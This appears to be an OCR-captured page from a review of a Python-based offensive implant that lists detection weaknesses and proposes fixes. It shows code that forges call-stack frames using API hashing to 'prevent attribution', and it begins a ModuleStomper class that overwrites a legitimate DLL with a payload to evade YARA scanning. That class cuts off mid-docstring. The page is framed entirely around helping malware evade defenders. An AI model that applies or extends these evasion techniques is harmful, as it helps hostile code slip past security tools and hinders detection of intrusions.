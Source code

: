 ```python
        """
        fake_frames = []
        
        # Get address of legitimate function
        parts = target_function.split('!')
        module = parts[0]
        function = parts[1] if len(parts) > 1 else None
        
        # Resolve module
        module_handle = self.kernel32.GetModuleHandleW(module)
        
        if function:
            # Get function address (use API hashing!)
            func_hash = self._hash_string(function)
            func_addr = self._get_export_by_hash(module_handle, func_hash)
            fake_frames.append(func_addr)
        else:
            # Just point into module code section
            fake_frames.append(module_handle + 0x1000)
        
        return fake_frames
```

**Impact:** ✅ **Prevents attribution through stack analysis**

---

### ISSUE #6: No Module Stomping = YARA Detection

**Location:** Missing from `Core/`  
**Severity:** 🟠 HIGH  
**Detection:** YARA rules scan loaded modules

**Why This Matters:**
1. ❌ **Python DLLs** visible in memory (python38.dll)
2. ❌ **Suspicious imports** visible (pycrypto, etc.)
3. ❌ **YARA rules** scan loaded modules
4. ❌ **Module names** give away Python usage

**Research Reference:**
- **"Module Stomping" - MDSec (2020)**
- **"Reflective DLL Injection Evolved" - Stephen Fewer**
- **BRC4 ransomware** - Used module stomping (2022)

**Solution Needed:**
```python
class ModuleStomper:
    """
    Module stomping - overwrite legitimate DLL with payload
    
    Research:
    - "Module Stomping" by MDSec Research (2020)
    - Used by: BRC4 Ransomware, FIN7
    - Detection rate: <5% (very effective)
    
    Technique:
    1. Load legitimate DLL (e.g., wwanapi.dll - rarely used)
    2. Unmap sections
    3. Replace with payload code
    4. Module name stays legitimate
    5. Memory appears clean
    """
    
    def stomp_module(self, target_dll: str, payload_bytes: bytes) -> bool:
        """
```